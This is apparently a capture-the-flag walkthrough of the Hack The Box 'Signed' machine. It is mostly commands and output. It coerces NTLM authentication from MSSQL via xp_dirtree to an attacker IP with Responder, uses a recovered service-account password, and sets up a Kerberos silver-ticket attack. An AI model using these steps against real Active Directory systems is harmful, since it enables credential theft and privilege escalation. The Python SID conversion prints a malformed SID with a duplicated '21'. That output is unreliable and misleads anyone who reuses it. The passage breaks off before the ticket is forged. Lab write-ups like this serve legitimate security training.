


## INFO_

```
Machine Information
As is common in real life Windows penetration tests, you will start the Signed box with credentials for the following account which can be used to access the MSSQL service: scott / Sm230#C5NatH
```

```
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info:
|     Version:
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.143.173:1433: 
|     Target_Name: SIGNED
|     NetBIOS_Domain_Name: SIGNED
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: SIGNED.HTB
|     DNS_Computer_Name: DC01.SIGNED.HTB
|     DNS_Tree_Name: SIGNED.HTB
|_    Product_Version: 10.0.17763
```

Only MSSQL port is accessible right now, Lets explore it !

We steal NTLM Hash from MSSQL ;
```
impacket-mssqlclient signed.htb/scott:'Sm230#C5NatH'@dc01.signed.htb

SQL (scott  guest@master)> xp_dirtree \\10.10.14.19\dfds
```


```
responder -I tun0
```



```
nxc mssql dc01.signed.htb -u mssqlsvc -p 'purPLE9795!@'
```

After logging as mssqlsvc, we arent the sysadmin nor we can elevate more privilege nor open xp_cmdshell. But when enumerating we found that the group members of SIGNED\IT are sysadmin. 

Now, As we have access of the service account, we can forge the silver ticket impersonating higher privilege users to that service.

i.e if we forget the silver ticket against mssql service , only there we can use that ticket and elevate our privileges further.


## [FORGED_SILVER_TICKET](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html#example-mssql-service-mssqlsvc--potato-to-system)

```
If you have the NTLM hash (or AES key) of a SQL service account (e.g., sqlsvc) you can forge a TGS for the MSSQL SPN and impersonate any user to the SQL service. From there, enable xp_cmdshell to execute commands as the SQL service account. If that token has SeImpersonatePrivilege, chain a Potato to elevate to SYSTEM.
```

--> Get the NTLM Hash.

```
echo -n 'purPLE9795!@'  | iconv -f UTF-8 -t UTF-16LE | openssl md4
MD4(stdin)= ef699384c3285c54128a3ee1ddb1a0cc
```


--> Get-The Domain Sid.

```SQL (SIGNED\mssqlsvc  guest@master)> SELECT SUSER_SID('SIGNED\IT');
b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000'
```

As, this is in hexa-decimal, we need to convert it to the suitable-form;

```
python3 -c "b=bytes.fromhex('0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000');print(f'S-1-5-21-{int.from_bytes(b[8:12],\"little\")}-{int.from_bytes(b[12:16],\"little\")}-{int.from_bytes(b[16:20],\"little\")}-{int.from_bytes(b[20:24],\"little\")}')"

S-1-5-21-21-4088429403-1159899800-2753317549
```

MSSQLSvc/DC01.SIGNED.HTB